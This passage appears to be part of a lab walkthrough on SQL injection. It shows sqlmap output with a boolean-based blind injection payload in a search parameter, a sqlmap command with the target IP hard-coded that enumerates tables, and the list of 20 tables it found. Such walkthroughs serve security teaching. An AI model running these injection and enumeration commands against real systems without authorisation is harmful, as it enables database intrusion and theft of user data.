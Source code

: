 ```plaintext output

...[SNIP]...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
---
...[SNIP]...

```

3. Now we can have sqlmap figure out a list of all tables in the database.  We will speed up the request by adding the **--threads 10** to allow sqlmap to send 10 concurrent requests.

```sh

 sqlmap -u "http://34.29.253.139/rest/products/search?q="  --technique=B --tables --threads 10

```

```plaintext output

...[SNIP]...
<current>
[20 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+
...[SNIP]...

```
